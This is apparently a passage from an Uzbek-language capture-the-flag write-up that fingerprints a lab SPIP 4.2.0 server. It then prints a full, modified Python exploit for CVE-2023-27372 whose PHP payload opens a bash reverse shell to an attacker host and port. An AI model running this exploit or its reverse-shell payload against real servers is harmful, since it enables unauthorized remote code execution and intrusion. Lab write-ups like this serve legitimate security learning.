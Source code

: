 Natija:

```
mete@sec ~> whatweb http://10.10.252.203/spip/
http://10.10.252.203/spip/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.252.203], MetaGenerator[SPIP 4.2.0], SPIP[4.2.0][http://10.10.252.203/spip/local/config.txt], Script[text/javascript], Title[Publisher], UncommonHeaders[composed-by,link,x-spip-cache]
```



## Web Hacking

**SPIP 4.2.0** versiyada ishlamoqda ekan. Keling exploit qidirib ko'ramiz.

RCE zaifligi bor ekan, aynan shu versiyada....
Link: https://www.exploit-db.com/exploits/51536

> **CVE-2023-27372**

Exploit(hozirgi vaziyatimiz uchun o'zgartirishlar kiritilgan):

```python
import argparse
import bs4
import requests

def parseArgs():
    parser = argparse.ArgumentParser(description="CVE-2023-27372 SPIP < 4.2.1 Reverse Shell Exploit by nuts7 mod")
    parser.add_argument("-u", "--url", required=True, help="SPIP base URL (e.g., http://victim.com)")
    parser.add_argument("-l", "--lhost", required=True, help="Local attacker IP")
    parser.add_argument("-p", "--lport", required=True, help="Local attacker port")
    return parser.parse_args()

def get_csrf(url):
    r = requests.get(f"{url}/spip.php?page=spip_pass", timeout=10)
    soup = bs4.BeautifulSoup(r.text, 'html.parser')
    csrf_input = soup.find('input', {'name': 'formulaire_action_args'})
    if csrf_input:
        return csrf_input['value']
    else:
        print("[-] CSRF token topilmadi.")
        exit(1)

def send_payload(url, csrf, payload):
    data = {
        "page": "spip_pass",
        "formulaire_action": "oubli",
        "formulaire_action_args": csrf,
        "oubli": f's:{len(payload)}:"{payload}";'
    }
    r = requests.post(f"{url}/spip.php?page=spip_pass", data=data)
    print("[+] Payload yuborildi.")

if __name__ == '__main__':
    opt = parseArgs()

    revshell = f"<?php system('/bin/bash -c \"/bin/bash -i >& /dev/tcp/{opt.lhost}/{opt.lport} 0>&1\"');?>"
    csrf = get_csrf(opt.url)
    send_payload(opt.url, csrf, revshell)


```
